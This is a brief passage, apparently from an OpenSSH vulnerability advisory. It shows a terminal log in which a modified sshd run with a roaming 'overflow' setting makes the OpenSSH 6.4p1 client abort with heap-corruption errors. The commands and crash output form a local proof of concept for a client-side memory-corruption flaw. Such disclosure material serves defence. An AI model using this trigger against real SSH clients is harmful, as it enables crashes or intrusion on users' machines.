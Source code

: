 `/usr/bin/ssh': free(): invalid next size (fast): 0x00007f0474d03e70 *** Aborted (core dumped) # env ROAMING="overflow:X" "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key $ /usr/bin/ssh -V OpenSSH_6.4p1, OpenSSL 1.0.1e-fips 11 Feb 2013 $ /usr/bin/ssh -X -o ProxyCommand="/usr/bin/socat - TCP4:%h:%p" -p 222 127.0.0.1 user@127.0.0.1's password: [connection suspended, press return to resume][connection resumed] *** Error in `/usr/bin/ssh': free(): invalid next size (fast): 0x00007fdcc2a3aba0 *** *** Error in